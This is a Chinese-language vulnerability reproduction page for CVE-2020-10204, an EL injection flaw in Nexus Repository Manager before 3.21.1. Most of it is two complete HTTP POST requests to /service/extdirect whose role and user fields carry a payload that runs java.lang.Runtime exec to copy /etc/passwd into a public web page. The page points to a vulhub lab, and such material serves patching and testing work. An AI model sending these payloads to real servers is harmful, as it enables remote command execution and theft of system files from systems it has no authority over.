# Nexus Repository Manger extdirect 后台远程命令执行 CVE-2020-10204

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

## 漏洞影响

<a-checkbox checked>Nexus < 3.21.1</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204</a-checkbox></br>

## 漏洞复现

漏洞触发需要任意账户权限

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210628181754513.png)

该漏洞需要访问更新角色或创建角色接口，登录任意用户后修改 `NXSESSIONID`

发送请求包执行命令

```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}
```

另一处漏洞点

```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"]}],"type":"rpc","tid":9}
```

访问 vuln.html

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210628191832105.png)
